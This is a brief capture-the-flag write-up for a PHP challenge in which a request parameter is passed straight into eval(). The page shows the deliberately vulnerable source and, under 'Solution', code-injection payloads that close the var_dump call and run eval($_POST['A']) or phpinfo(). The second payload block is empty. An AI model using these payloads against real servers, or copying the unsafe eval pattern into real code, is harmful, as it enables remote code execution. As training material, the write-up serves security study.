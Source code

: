 # Challenge 
```php 
<?php 
error_reporting(0);
show_source(__FILE__);

$a = @$_REQUEST['hello'];
eval("var_dump($a);"); 
```

# Solution
payload1:
```
?hello=);eval($_POST['A']);%2f%2f

或

?hello=);eval(phpinfo());//
```
即 eval("string(21) ");eval($_GET['A']);//""); 

payload2:
```

```

# Refference
+ [XNUCA 赛前指导 default](http://218.76.35.74:20131/index2.php)
